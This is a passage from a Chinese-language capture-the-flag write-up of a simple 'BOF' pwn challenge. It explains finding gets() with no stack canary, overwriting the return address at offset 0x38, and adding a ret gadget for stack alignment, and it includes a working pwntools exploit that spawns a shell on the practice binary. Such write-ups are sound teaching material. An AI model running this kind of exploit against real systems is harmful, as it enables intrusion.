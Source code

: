 ```python

f = [chr(i) for i in flag]
print(''.join(f))
```

## 💥 Pwn
### 👻 BOF
That is easy-peasy challenge and even my grandma can do.
嘲諷到說他阿媽都會.....

當然要解出來囉

先Checksec看一下，沒有canary保護
![](https://i.imgur.com/CzuEsSL.png)

丟ida按F5

看到gets很明顯可以玩buffer overflow
![](https://i.imgur.com/4LBihja.png)

400687部分可以執行sh
![](https://i.imgur.com/hB3Fq4d.png)

很直覺的知道，v4總共有0x30格，加上一個saved rbp。所以需要蓋到0x38再想辦法跳過去就好ㄌ

但是會發現死掉了QQQ

收到一個SIGSEGV
![](https://i.imgur.com/wUd48S8.png)

找到了這篇Stack overflow的文章

https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul

簡單來說，在執行system時，會先檢查stack有沒有對齊，在沒有對齊的狀況下會壞掉。最簡單的解法就是加一個ret。

```python
from pwn import *

p = process('bof')
# p = remote('60.250.197.227',10000)
l = p.readline()
print(l)


payload = 'a'*0x30
payload += 'a'*0x8

payload += p64(0x400730)
payload += p64(0x400687)
# raw_input()
p.sendline(payload)

p.interactive()
```
寫Writeup時，伺服器好像已經關了，所以就只有本地測試QQ
